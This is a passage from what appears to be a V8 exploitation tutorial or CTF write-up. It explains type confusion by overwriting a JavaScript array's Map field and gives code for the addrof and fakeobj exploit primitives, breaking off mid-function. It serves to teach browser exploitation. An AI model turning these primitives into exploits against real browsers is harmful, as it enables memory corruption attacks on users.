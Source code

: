 ![](./assets/double-array-2.jpg)


### Type Confusion

Overwriting the Map field in a JSArray object can lead to type confusion in V8, JavaScript's engine. This field determines the type of an array's elements and how they are accessed:

1. Array of Objects: When we define an array containing objects and access an element (e.g., at index 0), V8 interprets the value at this index as a pointer to an object. For instance, accessing this element would result in V8 fetching and printing the referenced object.

2. Array of Floats: Conversely, in an array of floating-point numbers, accessing an element directly yields the floating-point value. Here, V8 treats the value at the index as a float value.

This type confusion is crucial in V8 exploitation. To leak the address of a JSObject, we need to trick V8 into interpreting the object's pointer as an immediate value. Similarly, to perform arbitrary writes, we confuse V8 into interpreting an immediate value (such as an address) as a pointer, allowing us to overwrite the data it points to.

To leak arbitrary object's address, we can overwrite the Map field of a array of object to an array of float, then it will treat its element as float value which actually is a object pointer.

```
var temp_obj = {"A":1};
var obj_arr = [temp_obj];
var fl_arr = [1.1, 1.2, 1.3, 1.4];
var map1 = obj_arr.oob();
var map2 = fl_arr.oob();

obj_arr.oob(map2);
let addr = obj_arr[0];
console.log("[+] addr of temp_obj: 0x" + ftoi(addr).toString(16));
// [+] addr of temp_obj: 0x2c4b4c4eab1
```

In contrast, we can foo the V8 to treat an arbitrary float value as an object.

```
fl_arr.oob(map1);
let fakeobj = fl_arr[0]; // treat 1.1 in hex format as an address of object
console.log("[+] fakeobj: 0x" + ftoi(fakeobj).toString(16));
```

Therefore, we can get two basic exploit primitives: `addrof` and `fakeobj`.

```
var temp_obj = {"A":1};
var obj_arr = [temp_obj];
var fl_arr = [1.1, 1.2, 1.3, 1.4];
var map1 = obj_arr.oob();
var map2 = fl_arr.oob();

function addrof(in_obj) {
    obj_arr[0] = in_obj;    // First, put the obj whose address we want to find into index 0
    obj_arr.oob(map2);      // Change the obj array's map to the float array's map
    let addr = obj_arr[0];  // Get the address by accessing index 0
    obj_arr.oob(map1);      // Set the map back
    return ftoi(addr);      // Return the address as a BigInt
}

function fakeobj(addr) {
    fl_arr[0] = itof(addr);     // First, put the address as a float into index 0 of the float array
```